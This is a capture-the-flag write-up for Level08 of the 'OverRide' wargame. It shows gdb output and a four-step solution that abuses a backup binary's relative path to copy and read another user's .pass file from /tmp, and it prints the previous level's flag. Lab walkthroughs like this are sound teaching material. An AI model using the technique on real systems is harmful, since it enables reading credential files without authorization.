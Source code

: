 [README](../README.md)
# Level08
previous flag: `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`


## disas main
- <+95> : argument for fopen is prepared and we find out that it's an hardcoded relative (not absolute) path:
```
(gdb) x/s 0x400d6d
0x400d6d:	 "./backups/.log"
```

## vulnerability
- if we try to pass as argument the hardcoded path we have an error. It seems to be trying to open a file at the given path, but it's failing because the path is relative, not absolute.:
```
level08@OverRide:~$ ./level08 ./backups/.log
ERROR: Failed to open ./backups/./backups/.log
```
- The error message suggests that the program is trying to open a file in a backups directory that's located in the same directory as the program itself
- if we check the backups file and cat the .log we find that it contains the path to the .pass we want to cat:
```
cd ./backups/
level08@OverRide:~/backups$ ls
level08@OverRide:~/backups$ ls -la
total 4
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    49 Apr 30 00:05 .log
level08@OverRide:~/backups$ cat .log
LOG: Starting back up: /home/users/level09/.pass
```
## Solution
- since the program takes a relative path we can make it believe that we are in the home of user09 recreating the same file system structure in the only place where we have the privileges to do that, /tmp.
1. `cd /tmp` 
2. `mkdir -p ./backups/home/users/level09/`
from /tmp we launch the executable with the .pass we need. Because the program uses relative paths, it creates a backup of the password file in the backups directory that we created in /tmp.:
3. `~/level08 /home/users/level09/.pass`
we cat the backup that we created
4. `cat ./backups/home/users/level09/.pass`

